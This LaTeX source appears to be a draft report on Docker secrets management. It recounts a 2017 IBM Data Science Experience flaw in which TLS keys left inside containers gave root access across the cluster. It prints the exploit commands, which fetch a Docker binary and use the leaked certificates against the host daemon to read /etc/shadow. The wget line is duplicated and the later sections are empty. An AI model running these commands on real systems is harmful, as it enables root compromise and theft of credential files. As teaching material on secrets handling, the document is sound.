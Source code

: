 \documentclass[a4paper,12pt]{article}
\begin{document}
One example of how a bad management of secrets could be fatal for an agency
comes from IBM. In 2017 a privilege escalation vulnerability was found inside
IBM Data Science Experience, a data analytics
product\cite{ibm_data_science_experience}. Such vulnerability was due to a wrong
configuration of the Docker containers that were running the service. IBM's
engineers left inside the containers Docker TLS keys, leaving root access across
the whole computer cluster and read/write access many terabytes of sensible
customer data. \par As stated by the report of the
vulnerability\cite{ibm_data_sciene_report}, an exploit of such threat was also
quite easy, needing only an access to to Internet and a web browser:
\begin{itemize}
  \item The attacker should just enter the service's web environment, accessing
  to its command line
  \item He should download and extract the Docker binary of the service, using
  the following commands: 
  \begin{lstlisting}[language=bash,breaklines]
    system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
    system("wget https://test.docker.com/builds/Linux/x86_64/docker-1.13.1-rc1.tgz")
  \end{lstlisting}
  \item Use the downloaded Docker binary with the existing certificates to
  achieve root access to the host mounted volume:
  \begin{lstlisting}[language=bash,breaklines]
    system("DOCKER_API_VERSION=1.22 ./docker/docker -H 172.17.0.1 \
              --tlscacert /certs/ca.pem --tlscert /certs/cert.pem \
              --tlskey /certs/key.pem \
              run -v /:/host debian cat /host/etc/shadow")
  \end{lstlisting}
\end{itemize} 

\newpage

\section{Best Practices For Docker Deployment}

\newpage

\section{Experimental Evaluation}
\end{document}
